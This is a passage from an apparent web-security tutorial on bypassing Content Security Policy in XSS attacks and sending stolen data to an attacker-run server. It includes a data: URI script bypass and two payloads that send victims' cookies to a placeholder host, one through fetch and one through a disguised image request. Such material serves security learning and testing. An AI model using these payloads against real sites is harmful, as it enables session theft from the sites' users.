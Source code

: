 ### Unsafe CSP configurations

Some sites may allow loading of resources from unsafe sources, for example by allowing data: URIs or using the 'unsafe-inline' source. For example, if a website allows loading scripts from data: URIs, you can simply bypass their policy by moving your payload to the src attribute of the script, like so:` <script src="data:application/javascript,alert(1)"></script>`


﻿### Exfiltration

﻿To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as Beeceptor to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running python -m SimpleHTTPServer or python3 -m http.server.

If the website you're exploiting allows AJAX requests (via connect-src) to anywhere, you can create a fetch request to your server like so:

``<script>fetch(`http://example.com/${document.cookie}`)</script>``

When the script is triggered on the victim's machine, you'll see their cookies show up in your access log, like so:



If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the connect-src policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.

For example, if a website is blocking all of your XHR requests but allows images to be loaded from any location, you can abuse this with JavaScript to load a specially crafted URL that masquerades as an image, like so:``<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)}`</script>``

